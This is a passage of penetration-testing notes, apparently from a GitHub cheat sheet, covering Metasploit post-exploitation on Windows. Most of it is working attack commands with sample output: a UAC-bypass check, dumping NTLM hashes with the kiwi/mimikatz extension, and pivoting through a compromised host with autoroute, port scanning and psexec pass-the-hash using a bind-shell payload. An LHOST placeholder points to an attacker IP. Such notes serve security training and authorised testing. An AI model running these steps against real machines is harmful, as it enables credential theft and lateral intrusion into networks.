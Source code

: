 ```bash
set SESSION 7
set LHOST ATTCKER-IP
run
meterpreter > shell
powershell -ep bypass "Import-Module NtObjectManager; if((Get-NtTokenIntegrityLevel).ToString() -eq 'High') {'[*] Successully bypassed UAC!'}"

# load extension modules e.g. the mimikatz like kiwi
meterpreter > load kiwi
meterpreter > help
  creds_msv              Retrieve LM/NTLM creds (parsed)
creds_msv
Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
offsec    OFFSEC  167cf9218519a1209efc0b4bc1486a18  2f92bb1c2a2526a680122ea1b645c46093a0d837s
```

## Pivoting with Metasploit

Lateral movement (=pivot): Use an existing session to scan and attack targets in the network behind the compromised remote machine

Scenario

* Requires: Require meterpreter session on remote machine
* Use ifconfig to list interfaces on the remote machine
* Use route to add a route to network reachable form remote
* Use meterpreter session ID as gateway for lateral movement
* Start auxiliary portscan on the target network
* Start exploiting targets connected to the compromised remote machine

```bash
# auto route 
use post/multi/manage/autoroute
set session 1
run

# add routes manually
meterpreter > 
ifconfig
  ...
  IPv4 Address : 172.16.189.199
bg
[*] Backgrounding session 55...
msf6 >
route flush
route add 172.16.189.0/24 55
route print

# use aux port scanning to scan target network 
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.189.200
set PORTS 445,3389

# use smb psexec exploit with found credentials to pivot to target
# use pass-the-hash instead if password is unknown
# important: set payload bind shell, cause reverse shell can NOT find a route to attacker
use exploit/windows/smb/psexec
set SMBUser user
set SMBPass passwort or
set SMBPass NTLM_hash e.g.
set SMBPass 00000000000000000000000000000000:545414c16b5689513d4ad8234391aacf
set RHOSTS VICTIM-IP
set PAYLOAD windows/x64/meterpreter/bind_tcp
```